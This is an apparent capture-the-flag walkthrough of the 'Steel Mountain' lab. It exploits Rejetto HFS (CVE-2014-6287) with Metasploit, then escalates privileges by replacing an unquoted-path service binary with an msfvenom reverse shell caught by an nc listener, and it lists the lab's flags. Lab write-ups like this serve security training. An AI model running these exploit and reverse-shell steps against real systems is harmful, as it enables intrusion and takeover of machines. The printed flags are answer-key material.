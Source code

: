 # STEEL MOUNTAIN

## BASIC INFO

```
export IP=10.10.90.232
```

## INITIAL ACCESS

```
nmap -sV -sC -oN nmap/init $IP -p- -T4
```

> - **Scan the machine with nmap. What is the other port running a web server on?**
>> 8080

> - **Take a look at the other web server. What file server is running?**
>> Rejetto Http File Server

There is a link at the bottom left of the page. Once we click, it redirects  us to rejetto.com and the file server name is HttpFileServer.

> - **What is the CVE number to exploit this file server?**
>> 2014-6287

> - **Use Metasploit to get an initial shell. What is the user flag?**
>> b04763b6fcf51fcd7c13abc7db4fd365

```
msfconsole
use exploit/windows/http/rejetto_hfs_exec
This exploit may require manual cleanup of '%TEMP%\BlJLuM.vbs' on the target
```

## PRIVILAGE ESCALATION

Using a script called [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1). It is used to evaluate a Windows machine and determine any abnormalities.

In meterpreter, `upload /opt/PowerShellEXploit/PowerUp.ps1`\
Then run `load powershell` followed by `powershell_shell`\
After we spawned a powershell, enter the command `. .\PowerUp.ps1` and `Invoke-allChecks`

> - **Take close attention to the CanRestart option that is set to true. What is the name of the unquoted service path service name?**
>> AdvancedSystemCareService9

Use msfvenom to generate a reverse shell as an Windows executable.
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.8.8.177 LPORT=9001 -e x86/shikata_ga_nai -f exe -o ASCService.exe
```

Upload it with meterpreter, then run the following command in the windows shell.
```
sc stop AdvancedSystemCareService9
copy ASCService.exe "\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
```

Then choose yes when prompt to overwrite the program.

Now we create a listener on our host machine.\
`nc -lnvp 9001`\
Then restart the service with `sc start AdvancedSystemCareSevice9` in the windows shell.\
Now we have access to the machine as root.
```
cd C:\Users\Administrator\Desktop
type root.txt
```

> - **What is the root flag?**
>> 9af5f314f57607c00fd09803a587db80